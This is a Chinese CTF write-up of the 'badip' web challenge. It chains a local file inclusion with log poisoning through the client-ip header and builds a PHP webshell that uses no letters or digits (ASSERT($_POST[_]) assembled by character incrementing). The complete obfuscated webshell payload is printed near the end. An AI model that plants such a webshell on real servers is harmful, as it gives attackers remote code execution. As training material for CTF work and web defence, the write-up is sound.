通过中南大学院赛的一道Web题学习一下如何在过滤数字和字母的情况下编写出webshell
本题来自于中南大学院赛的一道Web题，题目名字为badip
题目如下：

看起来像是道sql注入题，但是尝试了一下?id=1'

像是过滤了单引号，再尝试1%23，1 order by 100%23都得到id=1的结果，看起来又不像是注入题，题目名为badip，没有找到考点，只能尝试扫一扫后台

发现了文件robots.txt

访问后发现存在两个文件：include.php和phpinfo.php
访问include.php

存在lfi，那么就用伪协议读一下index.php吧

解码一下得源码：

在源码末尾处发现采用sql预编译，那么就不用考虑注入了，忽略这段代码，让我们把目光放在前半部分得代码：

我们可以发现，当参数id包含#|\"|'|sleep|benchmark|outfile|dumpfile|load_file|join时，后台将会把我们得客户ip记录在txt文件中，并且源码中也告诉了我们参数ip取值自$_SERVER['HTTP_CLIENT_IP']，是可以通过头部字段：client-ip进行控制，也有将记录的txt文件路径返回给我们

这时又想到前面的lfi，思路便很清晰了，我们可以通过在client-ip注入webshell，再利用lfi包含写入webshell的txt文件即可
那么唯一需要注意的地方就是对ip参数的过滤：
1 | if(preg_match('/[a-z0-9]/is',$ip)) { |
不能包含数字和字母，这就想到了之前看到的p神的一篇文章：一些不包含数字和字母的webshell
编写不含数字和字母的webshell，思路总结一句话便是：利用合法字符（即非数字，字母的字符）通过各种变换，拼接出字符串assert，再利用php支持动态函数执行的特性，将字符串assert当成函数以动态执行
如果在php7中，assert是一个语言结构而不是函数，不能再作为函数名而动态执行，但是在本题中，给出了phpinfo.php文件

说明了版本为5.6，所以我们就可以毫无顾虑的构造assert了
这里我采用了p神指出的第三种方法来构造assert，这就需要利用php的一个特性：
1 | 在处理字符变量的算数运算时，PHP 沿袭了 Perl 的习惯，而非 C 的。例如，在 Perl 中 $a = 'Z'; $a++; 将把 $a 变成'AA'，而在 C 中，a = 'Z'; a++; 将把 a 变成 '['（'Z' 的 ASCII 值是 90，'[' 的 ASCII 值是 91）。注意字符变量只能递增，不能递减，并且只支持纯字母（a-z 和 A-Z）。递增／递减其他字符变量则无效，原字符串没有变化。 |
这个特性简单地说就是：'a'++ == 'b'，'b'++ == 'c'，我们只需要拿到一个变量，其值为a或者A，再利用自增操作来分别得到assert或者ASSERT的各个字符，因为php函数大小写不敏感
那么如何拿到字符a或者A呢，我们知道数组Array的第一个字符便是A，而php中数组与字符连接时，数组将自动转化为字符串Array

那么构造ASSERT代码如下：
1 | $_ = []; |
同样原理构造POST：
1 | $__ = $_; //$__ == 'A' |
最后构造ASSERT($_POST[_])：
1 | $_ = $$____; |
另外我们还要考虑到标签<?php ?>的问题，如果在php配置中开启配置short_open_tag = On，则可以直接短标签<? ?>，我们在phpinfo中确认一下

配置short_open_tag开启，所以最后我们构造头部参数
1 | client-ip=<? $_ = [];$_ = @"$_";$_ = $_['!' == '@'];$__ = $_;$___ = $_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___ .= $__;$___ .= $__;$__ = $_;$__++;$__++;$__++;$__++;$___ .= $__;$__ = $_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___ .= $__;$__ = $_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___ .= $__;$__ = $_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____ = '_';$____.=$__;$__ = $_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____ .= $__;$__ = $_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____ .= $__;$__ = $_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____ .= $__;$_____=$$____;$___($_____[_]); ?> |

再利用文件包含执行命令即可获得flag
